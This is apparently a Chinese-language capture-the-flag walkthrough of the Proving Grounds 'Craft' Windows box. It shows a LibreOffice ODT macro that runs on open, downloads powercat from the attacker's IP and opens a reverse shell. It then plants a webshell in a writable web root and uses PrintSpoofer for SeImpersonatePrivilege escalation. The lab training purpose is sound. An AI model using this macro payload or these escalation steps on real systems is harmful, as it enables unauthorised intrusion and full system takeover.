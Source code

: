 ```yaml
---
title: Proving Grounds Practice-Craft-Windows
date: 2025-6-12 20:00:00
tags: 红队
categories: 红队打靶-Windows
---
```


# 信息收集

## nmap

![image-20250612163539419](./Craft-Windows/image-20250612163539419.png)

# craft-web

存在文件上传点，但是只能上传odt文件，并且经过测试是后端验证，而且想要解析为php很难绕过，可能还对content-type，mime头都做了检测，所以尝试生成odt后门文件

![image-20250613115506489](./Craft-Windows/image-20250613115506489.png)





生成odt文件需要先安装 office 编辑程序

```
sudo apt-get install -y libreoffice-writer
```

然后创建带有宏的文件

![image-20250613105714847](./Craft-Windows/image-20250613105714847.png)

![image-20250613105732223](./Craft-Windows/image-20250613105732223.png)

宏脚本中写入反弹shell

![image-20250613104724760](./Craft-Windows/image-20250613104724760.png)

```
shell("cmd /c powershell IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.163:8000/powercat.ps1');powercat -c 192.168.45.163 -p 80 -e cmd")
```

然后选择文件打开时运行宏

`tools->customize->上面一行最右边events->选择open Document->点击macro->选择刚才生成好的宏`，成功之后是这样的

![image-20250613110449786](./Craft-Windows/image-20250613110449786.png)

然后保存文件，上传，对方打开文件时就会执行这个宏，从而反弹shell

![image-20250613111205664](./Craft-Windows/image-20250613111205664.png)

# 提权

网站根目录是在C:\xampp\htdocs下,apache拥有完全控制权，Users组拥有写入权限

> * `(F)` → **完全控制**（Full control）
> * `(RX)` → **读取和执行**（Read and execute）
> * `(AD)` → **添加文件（写数据）**（Add file / Append data）
> * `(WD)` → **写数据**（Write data）

![image-20250613112006836](./Craft-Windows/image-20250613112006836.png)

上传一个webshell到该文件夹下，然后利用浏览器访问webshell执行反弹shell，得到apache用户的shell

![image-20250613113740687](./Craft-Windows/image-20250613113740687.png)

该用户具有`SeImpersonatePrivilege`权限

![image-20250613115116553](./Craft-Windows/image-20250613115116553.png)

[Release PrintSpoofer · itm4n/PrintSpoofer](./https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)下载PrintSpoofer.exe

上传到靶机

```
运行：.\PrintSpoofer64.exe -i -c powershell.exe
```

成功提权

![image-20250613115052088](./Craft-Windows/image-20250613115052088.png)